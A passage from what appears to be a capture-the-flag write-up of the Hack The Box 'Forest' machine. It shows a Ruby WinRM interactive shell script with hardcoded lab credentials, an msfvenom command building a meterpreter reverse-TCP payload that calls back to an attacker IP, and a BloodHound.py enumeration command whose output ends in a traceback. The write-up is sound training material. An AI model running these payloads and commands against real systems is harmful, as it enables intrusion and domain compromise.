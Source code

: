     conn = WinRM::Connection.new(
      endpoint: 'http://10.10.10.161:5985/wsman',
      user: 'svc-alfresco',
      password: 's3rvice',
    )

    command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end
        puts "Exiting with code #{output.exitcode}"
    end

The msfvenom command to generate the meterpreter is the following:

    :::text
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST="10.10.15.185" LPORT=4444 -f exe > shell.exe

To catch the reverse meterpreter we use the `exploit/multi/handler` metasploit
module. We can get a cmd shell using the `shell` command.

## Bloodhound

As we need to elevate our privileges on a Windows environnement we want to run
Bloodhound to see the differents relationships between the domain's users,
groups and computers.
We use a [bloodhound ingestor based on impacket](https://github.com/fox-it/BloodHound.py)
that allow to grab credentials remotly. But we get some error about DNS
resolution probably because of our VPN configuration.

    :::text
    python ./bloodhound.py -d 'htb.local' -dc 10.10.10.161 -gc 10.10.10.161 -u svc-alfresco -p s3rvice -v -ns 10.10.10.161 -c all
    DEBUG: Authentication: username/password
    DEBUG: Resolved collection methods: localadmin, rdp, dcom, acl, objectprops, session, group, trusts
    DEBUG: Using DNS to retrieve domain information
    DEBUG: Querying domain controller information from DNS
    DEBUG: Using domain hint: htb.local
    INFO: Found AD domain: htb.local
    DEBUG: Found primary DC: FOREST.htb.local
    DEBUG: Found Global Catalog server: FOREST.htb.local
    DEBUG: Using LDAP server: 10.10.10.161
    DEBUG: Using base DN: DC=htb,DC=local
    INFO: Connecting to LDAP server: 10.10.10.161
    Traceback (most recent call last):
      File "./bloodhound.py", line 5, in <module>
        bloodhound.main()
      File "/root/BloodHound.py/bloodhound/__init__.py", line 265, in main
        disable_pooling=args.disable_pooling)
      File "/root/BloodHound.py/bloodhound/__init__.py", line 68, in run
        self.pdc.prefetch_info('objectprops' in collect, 'acl' in collect)
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 330, in prefetch_info
        self.get_domains(acl=acls)
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 204, in get_domains
        for entry in entries:
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 106, in search
        self.ldap_connect()
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 60, in ldap_connect
        q = self.ad.dnsresolver.query(self.hostname, tcp=self.ad.dns_tcp)